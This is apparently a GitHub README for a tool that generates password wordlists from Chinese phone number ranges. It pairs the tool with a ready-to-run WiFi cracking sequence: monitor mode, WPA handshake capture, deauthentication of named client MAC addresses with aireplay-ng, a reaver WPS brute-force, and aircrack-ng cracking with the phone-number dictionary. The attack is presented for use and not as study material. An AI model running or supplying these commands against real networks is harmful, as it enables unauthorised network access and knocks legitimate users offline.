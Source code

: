 # Generate dictionary based on Chinese phone number

## Usage
Set priority in table `province_priority` to adjust the sequence of the province in dict, priority 0 will not be generated.

`fetch_url.py` fetches all phone number regions from [www.51hao.cc](http://www.51hao.cc)
`load_phone_region.py` loads phone numbers to sqlitedb
`phone_dict_gen.py` will generate the phone dicts

## Crack cmd
```bash
# Enable monitor mode
sudo airmon-ng start wlan1mon

# Sniff
# Sniff wifi, -c CHANNEL
rm -fr *.cap && sudo airodump-ng --wps -w wpa wlan1mon -c 6

###################################################################
# tgt is the target wifi to crack, clientvic is the client to deauth
tgt=8C:18:50:56:2B:28

# Collect the handshake cap
sudo rm -fr *.cap && sudo airodump-ng --bssid ${tgt} -w ${tgt}.cap wlan1mon -c 2

# # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # 
# Deauth the client
tgt=8C:18:50:56:2B:28

clientvic=14:5F:94:8C:AA:BF
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} wlan1mon
clientvic=74:E2:F5:33:23:D4
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} wlan1mon

###################################################################

sudo reaver -i wlan1mon -b ${tgt} –a –S –vv –d 0  -c 11


caps=BC-5F-F6-B2-6B-02_handshake.cap

# Check SSID
aircrack-ng  -J wpahash ${caps}

# Crack
aircrack-ng -l wpakey.txt -w ~/phone_dict_gen/phone.dict ${caps}
```
